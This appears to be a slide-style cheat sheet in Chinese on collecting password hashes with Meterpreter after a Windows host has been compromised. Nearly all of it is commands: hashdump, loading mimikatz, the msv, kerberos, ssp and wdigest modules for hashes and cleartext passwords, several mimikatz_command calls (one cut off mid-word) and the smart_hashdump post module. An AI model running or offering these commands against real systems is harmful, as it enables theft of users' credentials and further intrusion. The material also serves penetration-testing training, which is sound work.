

# Hash获取
hashdump 获得用户的密码hash值
meterpreter > load mimikatz  #加载mimikatz模块   会单独讲
meterpreter > msv #获取hash值
meterpreter > kerberos #获取明文  抓取明文密码
meterpreter >ssp   #获取明文信息
meterpreter > wdigest #获取系统账户信
meterpreter >mimikatz_command -f a::   #必须要以错误的模块来让正确的模块显示
meterpreter >mimikatz_command -f hash::   #获取目标 hash
meterpreter > mimikatz_command -f samdump::hashes
meterpreter > mimikatz_command -f sekurlsa::searchPa
run post/windows/gather/smart_hashdump